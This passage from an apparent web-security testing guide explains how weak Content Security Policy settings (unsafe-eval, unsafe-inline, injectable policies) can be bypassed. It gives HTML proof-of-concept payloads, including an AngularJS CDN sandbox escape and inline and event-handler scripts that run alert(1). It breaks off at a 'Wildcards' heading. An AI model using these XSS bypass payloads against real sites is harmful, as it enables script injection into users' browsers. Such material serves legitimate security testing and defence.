If `script-src` or `default-src` allows `unsafe-eval`, it might be possible to execute arbitrary JavaScript. There are multiple ways to achieve code execution:

1. There is an `eval` expression that receives user-controlled data.
1. A website uses vulnerable frameworks, like jQuery or Angular.js, that can be used to execute any inline scripts.
1. If a Content Security Policy allows loading libraries and frameworks from public CDNs it is possible to use vulnerable libraries and frameworks to execute arbitrary code.

For example, the following CSP allows `https://cdnjs.cloudflare.com` and sets `unsafe-eval` in `script-src`. The payload uses `Angular JS` to execute arbitrary JavaScript code.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' https://cdnjs.cloudflare.com;">
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js"></script>
</head>
<body>
    <div ng-app ng-csp>{{$on.constructor('alert(1)')()}}</div>
</body>
```

## unsafe-inline

If `default-src`, `script-src`, `frame-src` or `object-src` allows `unsafe-inline` it is possible to execute arbitrary JavaScript code by injecting a tag or using event handlers.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline';">
</head>
<body>
    <script>alert(1)</script>
    <img src onerror="alert(1)">
    <iframe src="javascript: alert(1)"></iframe>
</body>
```

## Policy injection

Content Security Policy can be generated dynamically based on variables provided by a user. If these variables are not properly validated, it may be possible to inject directives and weaken the policy.

References:
- [Writeup: CSP Injection - CTFZone 2019 Quals - Shop Task](https://blog.blackfan.ru/2019/12/ctfzone-2019-shop.html)
- [PortSwigger: Bypassing CSP with policy injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- [Writeup: How to Hack Apple ID](https://zemnmez.medium.com/how-to-hack-apple-id-f3cc9b483a41)

## Wildcards *
